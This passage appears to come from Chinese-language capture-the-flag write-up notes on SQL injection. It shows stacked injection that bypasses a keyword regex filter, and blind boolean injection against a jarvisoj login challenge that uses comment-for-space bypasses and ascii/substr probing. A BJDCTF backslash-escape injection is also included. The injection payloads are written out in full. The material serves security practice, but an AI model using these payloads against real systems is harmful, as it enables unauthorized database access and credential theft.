 字符串或时前面的数字时结果为1则返回1，为0则返回0，效果跟直接*一样

![](./imgs/web-sql1.png)


2

    'or 1=1#             //
    1'order by 2#         //只有2字段。
    1'union select 1,2#         //返回一个正则过滤 return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
    想到堆叠注入，试一下，
    1';show tables;#            // 有我们要的字段
    
        array(1) {
          [0]=>
          string(16) "1919810931114514"
        }
    0'; show columns from words ;#



### sql 盲注

__知识点__

页面只返回True（密码错误）或False（用户名错误），考察SQL盲注。

解题步骤 http://web.jarvisoj.com:32787/login.php

    admin                       //尝试admin提示密码错误，其他用户名均提示用户名错误
    'or 1=1#                    //提示用户名错误，过滤了空格或or
    'or/**/1=1#                 //提示密码错误，确定过滤了空格
    'or/**/ascii(substr(database(),1,1))>1#     //提示密码错误，可以开始爆破了
    [BJDCTF 2nd]简单注入
       select * from users where username='admin\' and password='123456#';
       select * from users where username='admin and password=' 恶意代码 #';
       post --- username=admin\ password=^(ascii(substr(password,1,1))>1000)#
    